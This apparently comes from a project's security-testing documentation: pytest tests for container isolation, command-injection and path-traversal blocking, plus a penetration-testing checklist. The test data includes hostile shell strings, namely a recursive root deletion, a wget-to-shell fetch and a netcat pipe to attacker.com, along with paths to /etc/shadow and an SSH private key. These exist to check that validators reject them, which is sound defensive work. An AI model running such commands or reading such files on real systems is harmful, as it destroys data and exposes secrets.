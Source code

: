 ## Security Testing

### 1. Automated Security Tests
```python
import pytest
from security_tests import SecurityTestSuite

class TestContainerSecurity:
    def test_container_isolation(self):
        """Test that container cannot access host resources."""
        result = self.execute_in_container('ls /host')
        assert 'Permission denied' in result.stderr
    
    def test_privilege_escalation(self):
        """Test that privilege escalation attempts fail."""
        result = self.execute_in_container('sudo whoami')
        assert result.returncode != 0
    
    def test_network_restrictions(self):
        """Test that network access is properly restricted."""
        result = self.execute_in_container('curl malicious-site.com')
        assert 'Connection refused' in result.stderr

class TestInputValidation:
    def test_command_injection_prevention(self):
        """Test that command injection attempts are blocked."""
        malicious_inputs = [
            'ls; rm -rf /',
            'ls && wget malicious.com/script.sh | sh',
            'ls | nc attacker.com 4444'
        ]
        
        for malicious_input in malicious_inputs:
            with pytest.raises(SecurityError):
                validate_shell_command(malicious_input)
    
    def test_path_traversal_prevention(self):
        """Test that path traversal attempts are blocked."""
        malicious_paths = [
            '../../../etc/passwd',
            '/etc/shadow',
            '../../home/user/.ssh/id_rsa'
        ]
        
        for malicious_path in malicious_paths:
            assert not validate_file_path(malicious_path)
```

### 2. Penetration Testing Checklist
- [ ] **Container Escape Testing**
  - [ ] Attempt to access host filesystem
  - [ ] Try to escalate privileges within container
  - [ ] Test for kernel vulnerabilities
  - [ ] Verify resource limits enforcement
